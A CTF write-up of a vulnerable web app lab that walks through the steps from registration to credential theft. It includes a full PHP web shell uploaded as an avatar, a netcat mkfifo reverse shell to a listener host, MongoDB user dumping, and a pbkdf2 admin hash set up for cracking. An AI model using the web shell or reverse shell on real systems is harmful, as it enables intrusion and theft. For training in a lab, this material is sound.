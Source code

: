 ```yaml
---
date: 2025-03-10
categories: [CTF, ImmersiveLabs]
title: "IML - Mini CTF: Vulnerable Web App – Ep.1"
tags: ['web exploit']

description: "Mini CTF Vulnerable Web App –-1 - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Mini CTF: Vulnerable Web App – Ep.1

- On the main page, we casn sign up - but the Registration is giving a "Username too long!" error
Even if we give one letter


![image1](../resources/f3962ea2932041bb8298291c972a403f.png)

- In the brief it says that the app is still in development:

![image2](../resources/a39e5ba82b9c41b8ab0402482dd1c2bf.png)

- Open Burp and break the app (took username param out):

![image3](../resources/6039703708924a149b3cf483f2fcb8a6.png)

- We can see the format of the username here - **admin@mywebsite.com**

- So we can create an account using:
name@website.com - It needs the @ and the .com

Use the same name for the email

And a long password

- Login

![image4](../resources/7290a6dcbd2142038dcf860038e50970.png)

- Do a directory scan:
`dirb http://10.102.88.96 /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -c "session=eyJlbWFpbCI6ImFkbWluMkBteXdlYnNpdGUuY29tIn0.ZkxlMA.8rXIHijh614ybDQnm6DKb5ABNO8"`


![image5](../resources/63d473c8b4154fbc95ea8c1f6e651de5.png)

- We can see an uploads folder

- If we look at the Change Avatar feature - we can upload a file:

![image6](../resources/89b12ff7109d4bb6bff31de02b0f7665.png)

- On revshells find the php cmd command and create a **script.php** file:

```html
<html>
<body>
  <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="TEXT" name="cmd" id="cmd" size="80">
    <input type="SUBMIT" value="Execute">
  </form>
  <pre>
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
  </pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>

```

- Upload that file

- Go to  `http://10.102.88.96/static/uploads/script.php`

![image7](../resources/8f74a9b4fd9c4b96a62b6c0040913d0d.png)

- We have RCE

- Set up listener
- Run a bash rev shell command
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.102.74.132 8881 >/tmp/f
```

![image8](../resources/b2b31ce3cc2b40caa7da056df56c1cc8.png)


![image9](../resources/f180143cee174381a848c1a5031eeb2a.png)

- Admin creds:

![image10](../resources/34502bdd941e4ad099f3fff9cad66ece.png)

- MongoDB is running

```bash
mongo
show databases
use dev
show collections
db.user.find()
```

![image11](../resources/e251a386eac04e2c9553011465c9c8ae.png)

Python Werkzeug
corresponds to:
pbkdf2:sha256:\[ITERATIONS\]\$\[RAW SALT EVEN THOUGH IT LOOKS BASE64\]\$\[HEXDIGEST OF pbkdf2 sha256 hmac\]


- We can use the tool:
<https://github.com/AnataarXVI/Werkzeug-Cracker>

Use admin hash (from admin_details.txt):

pbkdf2:sha256:50000\$mqWZ9okN\$8840ee19b918c135fcf0f639a4c0efd0425fcee6462d1d59d40493e07ed9ab8b
